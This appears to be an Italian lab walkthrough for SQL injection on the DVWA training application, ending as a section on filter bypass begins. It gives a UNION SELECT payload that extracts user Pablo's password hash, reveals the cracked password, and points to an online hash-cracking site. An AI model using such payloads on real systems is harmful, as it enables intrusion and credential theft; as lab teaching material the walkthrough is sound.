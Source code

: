![PabloLow](./Screenshots/EstraggoPablo.png)

### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati dell'utente Pablo**:
   Inserisci il seguente payload nel campo **User ID**:
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde alla password `letmein`.
   - Puoi utilizzare uno strumento online come [https://crackstation.net](https://crackstation.net) per decifrare l'hash.


## 🔍 **Parte 2: SQL Injection in Modalità Medium**

### 🎯 **Obiettivo**
Superare i controlli di filtraggio e ottenere i dati di Pablo utilizzando payload in formato hexadecimal.
